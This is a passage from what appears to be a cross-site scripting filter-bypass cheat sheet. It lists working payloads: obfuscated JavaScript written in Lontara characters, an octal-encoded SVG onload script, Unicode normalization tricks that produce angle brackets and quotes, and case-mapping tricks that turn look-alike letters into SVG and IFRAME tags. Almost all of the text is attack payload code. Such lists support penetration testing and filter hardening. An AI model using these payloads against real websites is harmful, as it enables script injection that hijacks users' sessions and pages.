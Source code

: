 ### Bypass using Lontara

```javscript
ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()
```

More alphabets on http://aem1k.com/aurebesh.js/#

### Bypass using ECMAScript6

```html
<script>
  alert & DiacriticalGrave;
  1 & DiacriticalGrave;
</script>
```

### Bypass using Octal encoding

```javascript
javascript: "\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76";
```

### Bypass using Unicode

```javascript
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

E.g : http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
%EF%BC%9E becomes >
%EF%BC%9C becomes <
```

Bypass using Unicode converted to uppercase

```javascript
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```
